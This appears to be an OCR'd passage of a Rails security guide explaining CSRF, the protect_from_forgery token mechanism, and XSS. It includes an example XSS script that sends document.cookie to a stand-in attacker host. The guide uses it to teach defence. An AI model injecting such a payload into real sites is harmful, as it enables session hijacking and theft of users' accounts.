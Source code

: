   - User has signed in at http://www.mystore.com
  - In another tab user access http://www.malicious-site.com
  - The malicious site has a link as `<a href='http://www.mystore.com/account/destroy'>About</a>`.
  - When user clicks on this link the browser will request a **GET** to **http://ww.mystore.com/users/destroy**.
  - As the user is already signed in and the session cookie is present, the application executes the
command and deletes the users account

First of all in the example above the mystore application is not using the HTTP methods properly, any destructive
action (actions that change information in the server) must not use GET method. Also your app should be able to recognize
if a request was made from your site or from an external site.

If you are using rails you already have a very good protection against CSRF, using a CSRF token (a hash set in a `<meta` tag)
and setting this token in every form submitted prevents other sites to submit a POST to your application. To use this CSRF 
token simply enable it in the controllers (mostly in the ApplicationController).

```ruby
protect_from_forgery with: :exception
```

In this case any request not GET made without a crsf token will result in a exception. Now every non GET request should
include a csrf token as a parameter `authenticity_token` or using a `X-CSRF-Token` header (in ajax calls). If you are using
rails form or link helpers (`form_for`, `form_tag`, `link_to method: method`) you don't need to worry about this because
rails already injects as a hidden input automatically.

## Be careful with XSS

XSS (Cross Site Scripting) happens when a attacker successfully injects some code (javascript, css, html) in the application
and this code is shown after (generally posts, comments and etc). A very common and classic javascript injection could be.
(there is even a professional framework to exploit XSS vulnerabilities called [Beef](http://beefproject.com)).

```javascript
<script>
document.write("<img src='http://www.hacktest.com?c=" + document.cookie + "' style='display: none;'>")
</script>
```

This code will try to load an image pointing to an external site and appending the cookies content as a parameter, if your
cookies are not set as httpOnly the user's session will be sent as a `c` parameter and will be logged in the server's log.

So it is crucial to sanitize any user's input before rendering the html and fortunately using rails it is the default
behaviour, unless you use `raw` in the views.
